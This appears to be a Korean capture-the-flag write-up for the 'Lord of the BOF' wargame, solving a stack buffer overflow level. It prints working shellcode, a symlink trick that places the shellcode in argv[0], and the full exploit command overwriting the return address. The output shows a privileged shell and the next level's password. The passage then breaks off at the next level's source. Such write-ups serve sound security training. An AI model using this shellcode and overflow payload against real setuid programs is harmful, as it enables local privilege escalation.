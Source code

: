 argv[0]이 담겨져 있는 메모리의 주소를 RET 부분에 덮어 씌우면 쉘이 뜨게 된다.

```
bash$ id
uid=507(orge) gid=507(orge) groups=507(orge)
bash$ my-pass
euid = 507
timewalker
```

하지만... 이렇게 되기 때문에 현재의 권한을 위해 심볼링 링크를 걸어줘야 한다.

```
ln -sf ~/troll `python -c 'print  "\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`*

./`python -c 'print  "\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`* `python -c 'print "A"*44+"\x24\xfb\xff\xbf"'`
```

이렇게 payload를 입력하게 되면!!!

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$���
bash$ id
uid=507(orge) gid=507(orge) euid=508(troll) egid=508(troll) groups=507(orge)
bash$ my-pass
euid = 508
aspirin
```
드디어 성공.... 개삽질했다 이번껀은...너무 힘들었음

명령어 옵션은 아래의 참고한 블로그 내용을 보면 알 수 있다.

ln 사용 시 -f 는 파일이 존재해도 무시하는 옵션이고, ``를 닫고 *를 쓴 것은, *을 와일드 카드로 사용한 것이다.

rm *를 하면 디렉토리 내 모든 파일을 삭제하는 명령이듯이, \x90로 시작하는 모든 파일을 가리키는 것이다.

링크할 때도, 실행할 때도 저렇게 사용할 수 있다.

그리고 RET 영역을 0xbffff946으로 변조해도 쉘이 잘 실행된다. './'을 기계어로 취급하여 수행해도 쉘코드 실행에 문제가 되지 않기 때문이다.

출처: http://ssaemo.tistory.com/19 [뾰족뾰족]

## troll

### 1. source code
```
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
```